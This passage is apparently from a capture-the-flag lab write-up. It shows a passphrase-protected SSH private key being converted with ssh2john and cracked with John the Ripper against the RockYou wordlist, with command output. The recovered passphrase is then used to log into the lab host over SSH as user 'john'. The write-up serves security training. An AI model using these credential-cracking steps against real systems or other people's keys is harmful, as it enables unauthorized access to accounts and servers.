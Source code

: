 ### John the Ripper

We have an `id_rsa` file that is password-protected. We need to get the file into a format that John the Ripper can use, so we run:

```bash
ssh2john ./id_rsa.txt > id_rsa.hash
```

Now we can run John the Ripper using the "RockYou" wordlist and see if we can crack this password:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash 
```

And sure enough, we find the password:

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********       (./id_rsa.txt)     
1g 0:00:00:00 DONE (2023-08-12 21:07) 25.00g/s 1816Kp/s 1816Kc/s 1816KC/s saloni..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We can now use that to try to SSH in, and we get in, but immediately get kicked out!

```bash
$ ssh admin@$TARGET -i ./id_rsa.txt                   

Enter passphrase for key './id_rsa.txt': 
Connection closed by 10.10.176.145 port 22
```

We try again with the username `john` from the main "Panel" page we found and we get in!

```bash
$ ssh john@$TARGET -i ./id_rsa.txt

Enter passphrase for key './id_rsa.txt': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Aug 13 01:13:30 UTC 2023

  System load:  0.0                Processes:           109
  Usage of /:   25.8% of 19.56GB   Users logged in:     0
  Memory usage: 46%                IP address for eth0: 10.10.176.145
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
```
